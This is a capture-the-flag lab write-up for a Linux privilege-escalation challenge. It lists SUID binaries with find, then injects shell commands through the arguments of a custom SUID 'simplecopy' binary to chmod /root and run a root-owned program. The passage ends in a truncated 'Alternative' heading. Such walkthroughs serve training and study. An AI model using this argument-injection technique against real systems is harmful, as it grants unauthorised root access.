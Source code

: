 # Objective 7: Linux PrivEsc
**Location: Island of Misfit Toys: Ostrich Saloon**  
**Hints provided by Rose Mold**

The objective is to perform a privilege escalation in a Linux terminal session. Finally the binary residing in `/root` has to be executed.
The first approach is to find `suid` files on the file system:
```
elf@745490537a8a:~$ find / -perm -4000 -ls 2>/dev/null
1312417 84 -rwsr-xr-x 1 root root 85064 Nov 29 2022 /usr/bin/chfn
1312423 52 -rwsr-xr-x 1 root root 53040 Nov 29 2022 /usr/bin/chsh
1312541 56 -rwsr-xr-x 1 root root 55528 May 30 2023 /usr/bin/mount
1312546 44 -rwsr-xr-x 1 root root 44784 Nov 29 2022 /usr/bin/newgrp
1312620 68 -rwsr-xr-x 1 root root 67816 May 30 2023 /usr/bin/su
1312484 88 -rwsr-xr-x 1 root root 88464 Nov 29 2022 /usr/bin/gpasswd
1312645 40 -rwsr-xr-x 1 root root 39144 May 30 2023 /usr/bin/umount
1312557 68 -rwsr-xr-x 1 root root 68208 Nov 29 2022 /usr/bin/passwd
1457015 20 -rwsr-xr-x 1 root root 16952 Dec 2 22:17 /usr/bin/simplecopy
```

`simplecopy` looks promising as this does usually not exist on Linux systems (and has a recent last modified date).

Invoking this binary with some test arguments shows interesting error messages and reveals the name of the binary in `/root`:
```
elf@745490537a8a:~$ simplecopy "; ls -l /root" b
cp: missing file operand
Try 'cp --help' for more information.
ls: cannot access 'b': No such file or directory
/root:
total 600
-rws------ 1 root root 612560 Nov 9 21:29 runmetoanswer
```

So it seems that it is possible to inject shell commands in the arguments. We use this to add read and execute permissions to `/root` and `/root/runmetoanswer`:
```
elf@745490537a8a:~$ simplecopy "a; chmod -R a+rx /root" b
cp: missing destination file operand after 'a'
Try 'cp --help' for more information.
chmod: cannot access 'b': No such file or directory
elf@745490537a8a:~$ ls -l /root
total 600
-rwsr-xr-x 1 root root 612560 Nov 9 21:29 runmetoanswer
elf@745490537a8a:~$ /root/runmetoanswer
Who delivers Christmas presents?

> santa
Your answer: santa

Checking....
Your answer is correct!
```


**Achievement: Linux PrivEsc**

### Alternative

As the 
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE4MzAxMDIwMywtMTkyMTE2MjUxMCwtMT
c2NjU1MTYyMCwtODI2MTc4Njg0LC0yMDEwMTkyNjNdfQ==
-->
